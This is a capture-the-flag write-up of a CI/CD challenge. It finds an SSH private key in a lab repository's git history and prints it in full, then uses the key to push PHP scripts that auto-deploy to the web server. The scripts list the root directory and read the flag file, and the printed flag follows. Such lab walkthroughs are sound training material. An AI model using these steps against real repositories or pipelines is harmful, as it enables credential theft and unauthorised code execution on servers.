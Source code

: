 
# Objective 7: Jolly CI/CD
**Location: Elfen Ring / Elf House / Jolly CI/CD Terminal**  
**Elf: Rippin Proudboot**

This objective is about getting familiar with the benefits and risks of CI/CD pipelines.

First we clone the repository and check with ```git log``` for any "interesting" commit comments. Then we use ```git diff``` to show the delta between those.
```
git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
git log
git diff abdea0ebb21b156c01f7533cea3b895c26198c98 e19f653bde9ea3de6af21a587e41e7a909db1ca5

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```
Next we copy this SSH private key into ```~/.ssh/id_rsa```.

```
git config --global user.email "joergen@north.pole"
git config --global user.name "joergen"
git remote set-url origin git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git
```

Next we check in a PHP script ```test.php``` to list the contents of the root directory, which will automatically be deployed into the web root:
```
<?php
if ($handle = opendir('/')) {
  while (false !== ($entry = readdir($handle))) {
    if ($entry != "." && $entry != "..") {
      echo "$entry\n";
    }
  }
  closedir($handle);
}
?>
```

```
git add test.php
git commit -m.
git push
curl http://wordpress.flag.net.internal/test.php
[...]
var
bin
mnt
.dockerenv
flag.txt
```

Next we modify the script to reveal the flag:
```
<?php
echo file_get_contents('/flag.txt');
?>
```

```
git add test.php
git commit -m.
git push
curl http://wordpress.flag.net.internal/test.php
[...]
oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT
```

**oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT**

**Achievement: Jolly CI/CD**

